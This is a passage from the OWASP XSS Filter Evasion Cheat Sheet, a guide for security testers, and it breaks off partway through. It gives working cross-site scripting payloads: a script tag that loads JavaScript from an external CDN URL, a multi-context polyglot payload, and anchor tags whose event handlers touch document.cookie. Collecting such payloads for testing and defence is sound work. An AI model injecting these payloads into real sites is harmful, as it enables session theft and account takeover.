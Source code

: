 # XSS Filter Evasion Cheat Sheet 
## Introduction 
This article is a guide to Cross Site Scripting (XSS) testing for application security professionals. This cheat sheet was originally
based on RSnake\'s seminal XSS Cheat Sheet previously at: `http://ha.ckers.org/xss.html`. Now, the OWASP Cheat Sheet Series
provides users with an updated and maintained version of the document. The very first OWASP Cheat Sheet, [Cross Site Scripting
Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html), was inspired by RSnake\'s work and we thank RSnake for the inspiration!
 ## Tests
 This cheat sheet demonstrates that input filtering is an incomplete
defense for XSS by supplying testers with a series of XSS attacks that can bypass certain XSS defensive filters.
 ### Basic XSS Test Without Filter Evasion
 This attack, which uses normal XSS JavaScript injection, serves as a
baseline for the cheat sheet (the quotes are not required in any modern browser so they are omitted here):
 
```
    <SCRIPT SRC=https://cdn.jsdelivr.net/gh/Moksh45/host-xss.rocks/index.js></SCRIPT> 
```
 ### XSS Locator (Polyglot)
 This test delivers a \'polyglot test XSS payload\' that executes in
multiple contexts, including HTML, script strings, JavaScript, and URLs: 
```
     javascript:/*--></title></style></textarea></script></xmp>
    <svg/onload='+/"`/+/onmouseover=1/+/[*/[]/+alert(42);//'> 
```
 (Based on this
[tweet](https://twitter.com/garethheyes/status/997466212190781445) by [Gareth Heyes](https://twitter.com/garethheyes)).
 ### Malformed A Tags
 This test skips the
[`href`](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/a#href) attribute to demonstrate an XSS attack using event handlers:
 
```
    \<a onmouseover="alert(document.cookie)"\>xxs link\</a\> 
```
 Chrome automatically inserts missing quotes for you. If you encounter
issues, try omitting them and Chrome will correctly place the missing quotes in URLs or scripts for you:
 
```
    \<a onmouseover=alert(document.cookie)\>xxs link\</a\> 
```
 (Submitted by David Cross, Verified on Chrome)
 ### Malformed IMG Tags
 This XSS method uses the relaxed rendering engine to create an XSS
vector within an IMG tag (which needs to be encapsulated within quotes). We believe this approach was originally meant to correct sloppy coding
and it would also make it significantly more difficult to correctly parse HTML tags:
 